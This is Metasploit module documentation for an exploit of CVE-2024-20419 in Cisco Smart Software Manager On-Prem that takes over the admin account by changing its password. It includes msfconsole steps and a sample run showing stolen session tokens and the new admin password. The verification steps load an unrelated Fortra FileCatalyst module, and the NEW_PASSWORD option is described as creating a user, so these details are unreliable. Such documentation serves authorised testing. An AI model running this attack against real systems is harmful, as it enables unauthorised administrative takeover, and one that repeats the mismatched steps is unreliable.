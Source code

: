 ## Vulnerable Application

This module exploits an improper access control vulnerability in Cisco Smart Software Manager (SSM) On-Prem <= 8-202206 (CVE-2024-20419),
by changing the password of the admin user.

The vendor published an advisory [here]
(https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cssm-auth-sLw3uhUy). The original research blog
is available [here](https://www.0xpolar.com/blog/CVE-2024-20419).

## Testing

The software can be obtained from the [vendor](https://software.cisco.com/download/home/286285506/type/286326948/release/9-202407).

Deploy it by following the vendor's [installation guide]
(https://www.cisco.com/web/software/286285517/152313/Smart_Software_Manager_On-Prem_8-202006_Installation_Guide.pdf).

**Successfully tested on**

- Cisco Smart Software Manager (SSM) On-Prem v8-202206.

## Verification Steps

1. Deploy Cisco Smart Software Manager (SSM) On-Prem v8-202206
2. Start `msfconsole`
3. `use auxiliary/admin/http/fortra_filecatalyst_workflow_sqli`
4. `set RHOSTS <IP>`
5. `run`
6. A new password should have been set for the admin account.

## Options

### USER
The user of which the password should be changed (default: admin)
### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

## Scenarios

Running the module against Smart Software Manager (SSM) On-Prem v8-202206 should result in an output
similar to the following:

```
msf > use auxiliary/admin/http/cisco_ssm_onprem_account 
msf auxiliary(admin/http/cisco_ssm_onprem_account) > set RHOSTS 192.168.137.200
msf auxiliary(admin/http/cisco_ssm_onprem_account) > exploit 
[*] Running module against 192.168.137.200

[+] Server reachable.
[+] Retrieved XSRF Token: RAjYUE7aNosSoXUHQu3S2VWj2h+t5ioGFCV8PwMIkNIkX15f1H10sJJY5V1yTG6tsSkhonOIr2lI3VhseclCRw==
[+] Retrieved _lic_engine_session: 22b193146b9071bbf695182f22bfcb09
[+] Retrieved auth_token: 73e63ab74a07d9d4099d0c9918c21ceaad1c2db94058b32aa6d990178dbe13b5
[+] Password for the admin user was successfully updated: Epd45bZ9OCJIFiEr!
[+] Login at: http://192.168.137.200:8443/#/logIn?redirectURL=%2F
[*] Auxiliary module execution completed
```
